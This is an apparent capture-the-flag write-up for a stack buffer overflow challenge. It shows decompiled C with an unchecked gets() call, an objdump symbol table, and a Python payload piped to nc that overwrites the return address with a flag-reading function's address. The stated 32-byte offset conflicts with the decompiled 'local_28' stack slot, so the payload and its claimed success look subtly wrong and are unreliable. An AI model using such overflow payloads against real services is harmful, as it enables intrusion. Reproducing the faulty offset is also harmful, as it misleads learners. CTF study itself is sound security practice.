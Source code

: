 # pwn/ret2generic-flag-reader
Author: pepsipu

i'll ace this board meeting with my new original challenge!
```nc mc.ax 31077```

# Solution
Looking at the title, we know that this is another buffer overflow challenge.

This time, we are trying to return to a address.

Remember the two things that we are going to look for are the offset and the memory address.

First, let's find the offset.

Open up ghidra and look at the main function.

```
undefined8 main(void)

{
  char local_28 [32];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(
      "alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable..."
      );
  puts(
      "how about this, we\'ll make a generic pwnable with an overflow and they\'ve got to ret to some flag reading function!"
      );
  puts("slap on some flavortext and there\'s no way rob will fire me now!");
  puts("this is genius!! what do you think?");
  gets(local_28);
  return 0;
}
```

We see that the offset is 32 characters.

Now we need to find the memory address. 

Remember that the memory address we are trying to find it the memory address of the return call.

So basically, we have to find the memory address of the function we want to return to.

Looking around in ghidra in the functions section, we see that there is a function called super_generic_flag_reading_function_please_ret_to_me.

Now in order to find the memory address of that function, we have to dump the program function first using objdump.

Running objdump -t ret2generic-flag-reader gives us this:

```
SYMBOL TABLE:
0000000000400318 l    d  .interp        0000000000000000              .interp
0000000000400338 l    d  .note.gnu.property     0000000000000000              .note.gnu.property
0000000000400358 l    d  .note.gnu.build-id     0000000000000000              .note.gnu.build-id
000000000040037c l    d  .note.ABI-tag  0000000000000000              .note.ABI-tag
00000000004003a0 l    d  .gnu.hash      0000000000000000              .gnu.hash
00000000004003d0 l    d  .dynsym        0000000000000000              .dynsym
0000000000400508 l    d  .dynstr        0000000000000000              .dynstr
0000000000400578 l    d  .gnu.version   0000000000000000              .gnu.version
0000000000400598 l    d  .gnu.version_r 0000000000000000              .gnu.version_r
00000000004005b8 l    d  .rela.dyn      0000000000000000              .rela.dyn
0000000000400630 l    d  .rela.plt      0000000000000000              .rela.plt
0000000000401000 l    d  .init  0000000000000000              .init
0000000000401020 l    d  .plt   0000000000000000              .plt
00000000004010a0 l    d  .plt.sec       0000000000000000              .plt.sec
0000000000401110 l    d  .text  0000000000000000              .text
00000000004014a8 l    d  .fini  0000000000000000              .fini
0000000000402000 l    d  .rodata        0000000000000000              .rodata
0000000000402184 l    d  .eh_frame_hdr  0000000000000000              .eh_frame_hdr
00000000004021d0 l    d  .eh_frame      0000000000000000              .eh_frame
0000000000403e10 l    d  .init_array    0000000000000000              .init_array
0000000000403e18 l    d  .fini_array    0000000000000000              .fini_array
0000000000403e20 l    d  .dynamic       0000000000000000              .dynamic
0000000000403ff0 l    d  .got   0000000000000000              .got
0000000000404000 l    d  .got.plt       0000000000000000              .got.plt
0000000000404050 l    d  .data  0000000000000000              .data
0000000000404060 l    d  .bss   0000000000000000              .bss
0000000000000000 l    d  .comment       0000000000000000              .comment
0000000000000000 l    df *ABS*  0000000000000000              crtstuff.c
0000000000401150 l     F .text  0000000000000000              deregister_tm_clones
0000000000401180 l     F .text  0000000000000000              register_tm_clones
00000000004011c0 l     F .text  0000000000000000              __do_global_dtors_aux
0000000000404088 l     O .bss   0000000000000001              completed.8060
0000000000403e18 l     O .fini_array    0000000000000000              __do_global_dtors_aux_fini_array_entry
00000000004011f0 l     F .text  0000000000000000              frame_dummy
0000000000403e10 l     O .init_array    0000000000000000              __frame_dummy_init_array_entry
0000000000000000 l    df *ABS*  0000000000000000              ret2generic-flag-reader.c
0000000000000000 l    df *ABS*  0000000000000000              crtstuff.c
00000000004022ec l     O .eh_frame      0000000000000000              __FRAME_END__
0000000000000000 l    df *ABS*  0000000000000000              
0000000000403e18 l       .init_array    0000000000000000              __init_array_end
0000000000403e20 l     O .dynamic       0000000000000000              _DYNAMIC
0000000000403e10 l       .init_array    0000000000000000              __init_array_start
0000000000402184 l       .eh_frame_hdr  0000000000000000              __GNU_EH_FRAME_HDR
0000000000404000 l     O .got.plt       0000000000000000              _GLOBAL_OFFSET_TABLE_
00000000004014a0 g     F .text  0000000000000005              __libc_csu_fini
0000000000404060 g     O .bss   0000000000000008              stdout@@GLIBC_2.2.5
0000000000404050  w      .data  0000000000000000              data_start
0000000000000000       F *UND*  0000000000000000              puts@@GLIBC_2.2.5
0000000000404070 g     O .bss   0000000000000008              stdin@@GLIBC_2.2.5
0000000000404060 g       .data  0000000000000000              _edata
0000000000000000       F *UND*  0000000000000000              fclose@@GLIBC_2.2.5
00000000004014a8 g     F .fini  0000000000000000              .hidden _fini
0000000000000000       F *UND*  0000000000000000              setbuf@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              __libc_start_main@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              fgets@@GLIBC_2.2.5
00000000004011f6 g     F .text  00000000000001af              super_generic_flag_reading_function_please_ret_to_me
0000000000404050 g       .data  0000000000000000              __data_start
0000000000000000  w      *UND*  0000000000000000              __gmon_start__
0000000000404058 g     O .data  0000000000000000              .hidden __dso_handle
0000000000402000 g     O .rodata        0000000000000004              _IO_stdin_used
0000000000000000       F *UND*  0000000000000000              gets@@GLIBC_2.2.5
0000000000401430 g     F .text  0000000000000065              __libc_csu_init
0000000000404090 g       .bss   0000000000000000              _end
0000000000401140 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401110 g     F .text  000000000000002f              _start
0000000000404060 g       .bss   0000000000000000              __bss_start
00000000004013a5 g     F .text  000000000000008b              main
0000000000000000       F *UND*  0000000000000000              fopen@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              exit@@GLIBC_2.2.5
0000000000404060 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
0000000000404080 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```
We see that the memory address of that super_generic_flag_reading_function_please_ret_to_me function is 00000000004011f6.

So now we can make a python payload in order to get the flag.

Our payload will be python -c "print 'A' * 32 + '\xf6\x11\x40\x00\x00\x00\x00\x00'" | nc mc.ax 31077

Running that payload, gives us the flag!

# Flag
```flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}```
